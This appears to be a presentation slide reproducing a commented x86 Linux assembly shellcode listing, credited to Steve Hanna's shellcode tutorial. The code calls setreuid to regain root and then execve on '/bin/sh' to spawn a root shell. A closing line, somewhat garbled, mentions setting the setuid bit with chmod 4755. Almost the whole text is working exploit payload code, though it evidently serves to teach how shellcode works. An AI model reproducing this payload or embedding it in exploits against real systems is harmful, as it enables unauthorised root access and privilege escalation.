

;By Steve Hanna
;shanna@uiuc.edu
;http://www.vividmachines.com/
;Linux Shellcode
;shellex.asm shellcode example
;this shellcode fires up a shell with root access

[SECTION .text]

global _start

_start:
        xor eax, eax
        mov al, 70              ;setreuid is syscall 70
        xor ebx, ebx
        xor ecx, ecx
        int 0x80

        jmp short ender

        starter:

        pop ebx                 ;get the address of the string
        xor eax, eax

        mov [ebx+7 ], al        ;put a NULL where the N is in the string
        mov [ebx+8 ], ebx       ;put the address of the string to where the
                                ;AAAA is
        mov [ebx+12], eax       ;put 4 null bytes into where the BBBB is
        mov al, 11              ;execve is syscall 11
        lea ecx, [ebx+8]        ;load the address of where the AAAA was
        lea edx, [ebx+12]       ;load the address of the NULLS
        int 0x80                ;call the kernel, WE HAVE A SHELL!

        ender:
        call starter
        db '/bin/shNAAAABBBB'
We can remove it, however, we must use command chmod 4755 + shellex